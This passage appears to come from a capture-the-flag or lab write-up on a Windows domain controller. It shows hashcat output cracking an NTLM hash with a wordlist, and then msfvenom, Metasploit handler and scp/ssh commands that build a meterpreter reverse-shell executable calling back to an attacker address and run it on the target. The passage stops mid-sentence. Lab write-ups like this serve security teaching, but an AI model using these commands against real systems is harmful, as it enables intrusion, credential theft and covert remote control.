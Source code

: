     f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#

    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: NTLM
    Hash.Target......: f4ab68f27303bcb4024650d8fc5f973a
    Time.Started.....: Thu Sep 16 16:53:00 2021 (3 secs)
    Time.Estimated...: Thu Sep 16 16:53:03 2021 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  3817.3 kH/s (0.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 10846208/14344385 (75.61%)
    Rejected.........: 0/10846208 (0.00%)
    Restore.Point....: 10842112/14344385 (75.58%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidates.#1....: Magic01 -> MYSELFonly4EVER

    Started: Thu Sep 16 16:52:35 2021
    Stopped: Thu Sep 16 16:53:04 2021
    ```

Looks like we need to crack the passwords of Machine1 (64f12cddaa88057e06a81b54e73b949b) and Machine2 (c39f2beb3d2ec06a62cb887fb391dee0)...

## Maintaining Access

Generating a Payload with msfvenom

``` sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.193.173 LPORT=5555 -f exe -o sh3ll.exe
```

Start metasplot and listen

``` sh
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

??? output "exploit/multi/handler"
    ``` txt

    ```

Move file to target and run it:

``` sh
scp sh3ll.exe Administrator@10.10.119.134:/Users/Administrator/sh3ll.exe
ssh -l Administrator@CONTROLLER 10.10.119.134
PS C:\Users\Administrator\> sh3ll.exe
```

Let's create a 

background
